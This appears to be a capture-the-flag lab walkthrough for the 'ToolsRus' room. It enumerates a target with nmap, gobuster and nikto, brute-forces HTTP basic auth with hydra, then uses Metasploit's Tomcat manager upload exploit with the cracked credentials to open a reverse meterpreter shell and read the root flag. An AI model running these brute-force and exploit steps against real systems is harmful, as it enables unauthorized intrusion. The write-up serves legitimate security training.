 # ToolsRus

## Description
Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

This room will introduce you to the following tools: 

Dirbuster
Hydra
Nmap
Nikto
Metasploit

## Challenge

### Preparing

*Nmap*

`nmap -sV -sC -A 10.10.231.52`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:5c:8c:5b:d8:75:4d:f5:66:7b:c3:53:4b:36:b5:86 (RSA)
|   256 21:14:24:9b:29:92:ef:58:99:6d:cb:55:8d:5a:ea:d4 (ECDSA)
|_  256 83:ef:79:a3:b1:41:3b:2f:a8:9e:63:4b:e8:dc:0f:25 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 02:5E:E2:01:03:FB (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/2%OT=22%CT=1%CU=33065%PV=Y%DS=1%DC=D%G=Y%M=025EE2%TM
OS:=660B5DE9%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M230
OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
OS:IN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6
OS:903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

1. What directory can you find, that begins with a "g"?

*Dirbuster/Gobuster*

`gobuster dir -u http://10.10.204.45 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

2. Whose name can you find from this directory?

Just open page from previous qustion

3. What directory has basic authentication?

Directory from first question, that begins with a "p"

4. What is bob's password to the protected part of the website?

*Hydra*

`hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.204.45 http-get /p*******/`

5. What other port that serves a webs service is open on the machine?

We already have Nmap results, just choose another port =)

6. What is the name and version of the software running on the port from question 5?

Check Nmap output again

7. How many documentation files did Nikto identify?
Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

`nikto -h http://10.10.204.45:1234/manager/html -id "[QUESTION 2]:[Question 4]"`
There is a lot of output

8. What is the server version?

*Nmap/Nikto*

80/tcp   open  http    Apache httpd [REDACTED] ((Ubuntu))

9. What version of Apache-Coyote is this service using?

*Nmap*

1234/tcp open  http    Apache Tomcat/Coyote JSP engine [REDACTED]

10. What user did you get a shell as?
What user did you get a shell as?

*Metasploit*

```
msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.204.45
RHOSTS => 10.10.204.45
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.73.91:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying T6Jti7Nrp...
[*] Executing T6Jti7Nrp...
[*] Undeploying T6Jti7Nrp ...
[*] Sending stage (58851 bytes) to 10.10.204.45
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.73.91:4444 -> 10.10.204.45:42384) at 2024-04-02 03:10:39 +0100

meterpreter > getuid

```

11. What flag is found in the root directory?

```
meterpreter > cat /root/flag.txt
```
